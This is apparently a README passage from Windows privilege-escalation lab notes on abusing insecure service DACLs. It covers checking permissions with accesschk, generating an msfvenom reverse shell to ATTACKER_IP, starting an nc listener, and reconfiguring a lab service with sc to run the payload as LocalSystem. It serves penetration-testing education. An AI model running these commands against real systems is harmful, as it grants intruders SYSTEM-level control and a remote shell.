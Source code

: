 **********

* ## Insecure Service Permissions

You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite. For your convenience, a copy is available at ```C:\\tools``` . The command to check for the thmservice service DACL is:


```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/e08435fe-5921-4c7c-b7e3-590777e92fb3">
</p>

Here we can see that the ```BUILTIN\\Users``` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:

```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
```
```
user@attackerpc$ nc -lvp 4447
```

We will then transfer the reverse shell executable to the target machine and store it in ```C:\Users\thm-unpriv\rev-svc3.exe``` . Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:

```
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):

```
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem      
```

Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:

```
C:\> sc stop THMService
```
```
C:\> sc start THMService
```
